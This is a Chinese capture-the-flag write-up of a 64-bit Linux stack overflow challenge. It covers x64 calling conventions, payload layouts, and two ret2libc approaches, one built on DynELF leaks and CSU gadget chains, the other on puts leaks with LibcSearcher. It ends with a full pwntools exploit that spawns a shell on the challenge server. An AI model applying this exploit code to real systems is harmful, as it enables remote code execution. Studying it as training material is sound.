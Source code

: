 0.Linux x64汇编函数的调用约定：函数调用时，前六个参数是从左至右依次存放于RDI、RSI、RDX、RCX、R8、R9寄存器里面，剩下的参数从左至右顺序入栈
  Windows x64会变函数的调用约定：函数调用时，前四个参数是从左至右依次存放于RCX、RDX、R8、R9寄存器里面，剩下的参数从左至右顺序入栈
本题存在明显的缓冲区溢出漏洞：
sub_40063D((__int64)&v1, 0xC8u);//其中v1的长度为0x40

__int64 __fastcall sub_40063D(__int64 a1, unsigned int a2)
{
  __int64 result; // rax@3
  unsigned int i; // [sp+1Ch] [bp-4h]@1

  for ( i = 0; i<a2; ++i )
  {
    read(0, (void *)((signed int)i + a1), 1uLL);
  }
  result = i;
  return result;
}

本题应该与pwn200一起比较
方法一、根据writeup第一条参考分析而来
本题是64位linux下的二进制程序，无cookie，也存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件，但和pwn100相比，存在两处差异：

1）64位linux下的函数需要通过rop链将参数传入寄存器，而不是依靠栈布局；
2）puts函数与write函数不同，不能指定输出字符串的长度。

def leak(address): 
    payload = "A" * 72 + p64(poprdiAddress) + p64(address) + p64(putsAddress) + p64(startAddress) 
    payload = payload.ljust(200, "B")
    io.send(payload) 
    io.recvuntil('bye~\n') 
    count = 0 
    data = '' 
    up = "" 
    while True: 
        c = io.recv(numb=1, timeout=0.5) 
        count += 1 
        if up == '\n' and c == "":
            data = data[:-1] 
            data += "\x00" 
            break  
        else: 
            data += c 
        up = c 
    data = data[:8] 
    log.info("%#x => %s" % (address, (data or '').encode('hex'))) 
    return data

d = DynELF(leak,elf=binary) 
systemAddress = d.lookup('__libc_system','libc') 
log.success("SystemAddress:" + hex(systemAddress))

第一次payload(利用DynELF得到system函数的地址)的结构布局

AAAAAAAA
........
AAAAAAAA 
AAAAAAAA	 			#72字节数据区
pop rdi		 			#sub_40063D函数返回地址
address		 			#rdi=address
putsPLT		 			#puts(address)
startAddress	 			#返回地址

payload = 'A' * 72 + p64(pop_6Address) + p64(0) + p64(1) + p64(readGOT) + p64(8) + p64(writeAddress) + p64(0) 
payload += p64(movAddress) 
payload += '\x00' * 56 
payload += p64(startAddress) 
payload = payload.ljust(0xc8,'A')
io.send(payload) 
io.recvuntil('bye~\n') 
io.send('/bin/sh\x00')

第二次payload(写入/bin/sh)的结构布局

AAAAAAAA
........
AAAAAAAA 
AAAAAAAA		 		#72字节数据区
pop_6Address(rop1)	 			#6个pop后返回，如下：
0		 			#pop rbx
1		 			#pop rbp
readGOT	         			#pop r12
8		 			#pop r13
writeAddress	 			#pop r14
0		 			#pop r15
movAddress(rop2)	 		#mov rdx,r13	第三个参数rdx为8
		 			#mov rsi,r14	第二个参数rsi为writeAddress
					#mov edi,r15d	第一个参数rdi为0
					#call qword ptr [r12+rbx*8] <==> call readGOT(read(0.writeAddress,8))
\x00\x00\x00\x00\x00\x00\x00\x00
........
\x00\x00\x00\x00\x00\x00\x00\x00	#56个'\x00',填充7*8个字节到返回地址
startAddress				#返回地址
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA		 		#为了凑够200个字节




payload = "A" * 0x48 + p64(poprdiAddress) + p64(writeAddress) + p64(systemAddress) + p64(startAddress) 
payload = payload.ljust(200, "A")
io.send(payload)

第三次payload(getshell)的结构布局

AAAAAAAA
........
AAAAAAAA 
AAAAAAAA	 			#72字节数据区
pop_rdi_ret	 			#返回地址
writeAddress	 			#rdi=writeAddress(binsh_addr)
systemAddress	 			#system(writeAddress)
startAddress	 			#返回地址
AAAAAAAA
........
AAAAAAAA 
AAAAAAAA	 			#为了凑够200个字节，(200-72-4*8)字节的‘A’

方法二、根据writeup第二条参考分析而来

本方法利用put来泄露read函数的地址，然后再利用LibcSearcher查询可能的libc

(1)泄露read函数位于libc的地址
payload = 'a'*0x48+p64(popedi)+p64(readgot)+p64(putaddr)+p64(mainaddr)+'a'*(0xC8-0x48-32)
上面的payload相当于
	push read_addr
	pop edi
	call puts
	call main
(2)利用libcSearcher搜索匹配到的可能的libc版本，从而获得system的地址和/bin/sh的地址

	#libc数据库查询
	libc=LibcSearcher("read",read_addr)
	
	#得到libc加载地址
	libc_base=read_addr-libc.dump('read')
	
	#获得system地址
	system_addr=libc.dump("system")+libc_base
	
	#获得/bin/sh地址
	binsh_addr=libc.dump("str_bin_sh")+libc_base

(3)构造pyload
payloadpayload='a'*0x48+p64(popedi)+p64(binsh_addr)+p64(system_addr)+'a'*(0xC8-0x48-24)
上面的payload相当于
	pushbinsh_addr
  	pop edi
     	call system

exp:
#coding:utf8
from pwn import *
from LibcSearcher import *

elf=ELF('./pwnh5')

#x86都是靠栈来传递参数的,而x64换了它顺序是rdi,rsi,rdx,rcx,r8,r9,如果多于6个参数才会用栈
readgot=elf.got['read']
putaddr=elf.sym['puts']
mainaddr=0x4006B8

#popedi的地址
popedi=0x400763
#sh=process('./pwnh5')
sh=remote('111.198.29.45',52630)

#这个payload用于泄露read位于libc的地址
#popedi将read的地址加载到edi中，用于传给put输出显示
#mainaddr为覆盖eip，这样我们又可以重新执行main函数了
payload='a'*0x48+p64(popedi)+p64(readgot)+p64(putaddr)+p64(mainaddr)+'a'*(0xC8-0x48-32)
sh.send(payload)

sh.recvuntil('bye~\n')
#注意，这步重要,必须要去掉末尾的\n符号
s=sh.recv().split('\n')[0]
#凑足长度8
for i in range(len(s),8):
	s=s+'\x00'
#得到read的地址
addr=u64(s)
print hex(addr)

#libc数据库查询
obj=LibcSearcher("read",addr)
#得到libc加载地址
libc_base=addr-obj.dump('read')
#获得system地址
system_addr=obj.dump("system")+libc_base
#获得/bin/sh地址
binsh_addr=obj.dump("str_bin_sh")+libc_base

print hex(system_addr)
print hex(binsh_addr)

payload='a'*0x48+p64(popedi)+p64(binsh_addr)+p64(system_addr)+'a'*(0xC8-0x48-24)
sh.send(payload)
sh.interactive()

